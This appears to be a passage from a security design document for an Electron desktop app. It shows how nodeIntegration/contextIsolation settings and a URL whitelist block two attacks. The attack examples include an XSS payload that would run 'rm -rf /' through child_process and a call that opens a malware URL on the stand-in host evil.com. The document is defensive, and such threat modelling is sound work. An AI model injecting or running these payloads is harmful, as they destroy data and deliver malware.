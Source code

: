 #### Attack 3: XSS → RCE Escalation

**Attack Attempt**:
```html
<!-- Malicious HTML injected into UI -->
<img src="x" onerror="require('child_process').exec('rm -rf /')">
```

**Defense**:
```
Renderer process tries to execute malicious code
    ↓
nodeIntegration = false
contextIsolation = true
    ↓
require() is undefined in renderer
    ↓
Script fails silently
    ↓
Attack BLOCKED ✅
```

#### Attack 4: External URL Opening

**Attack Attempt**:
```javascript
// Malicious code tries:
electronAPI.shell.openExternal('https://evil.com/malware.exe');
```

**Defense**:
```
Input: "https://evil.com/malware.exe"
    ↓
shell-open-external IPC handler
    ↓
URL validation
    ↓
Parse URL: hostname = "evil.com"
    ↓
Check whitelist: ['amicus5.com']
    ↓
"evil.com" in whitelist? NO
    ↓
BLOCK: console.error('Domain not in whitelist')
    ↓
Attack BLOCKED ✅
```

---

## File Format Processing

### Format 1: Excel (.xlsx)
